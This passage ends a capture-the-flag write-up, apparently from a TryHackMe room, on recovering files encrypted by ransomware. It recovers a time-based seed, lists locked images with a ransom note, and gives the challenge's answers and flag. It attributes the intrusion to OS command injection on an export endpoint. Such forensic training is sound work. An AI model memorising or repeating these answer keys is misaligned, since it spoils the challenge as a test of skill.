[+] UTC: 2026-10-20 05:36:54.662000+00:00
[+] GCM authentication: VALID
[+] JPEG header: ffd8ffe0
```

The correct initial seed was 1792474614662, corresponding to 2026-10-20 05:36:54.662 UTC.

**Answer: 1792474614662**

## Question 6: What flag appears in the recovered inspection checklist?

Now we should able to decrypt these files (Actually I have done it in task 5).

```
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery/media/originals# ls
RESTORE.txt  yard_0147.jpg.locked  yard_0148.jpg.locked  yard_0152.jpg.locked

root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery/media/originals# cat RESTORE.txt
Your image library has been locked.
Keep the affected files and their names unchanged.
For recovery instructions contact restore@notice.invalid.
```



**Answer: THM{R4ns0mw4r3_K3ys_Ar3_A_M4tt3r_0f_T1m3}**

## Conclusion

Overall, the developer was carelessly enable OS command injection on `/api/albums/1/export`, and the attacker has downloaded a ransomware executable. This encrypted files in gallery folder, reverse the `ELF` file to understand its mechanism and restore original data.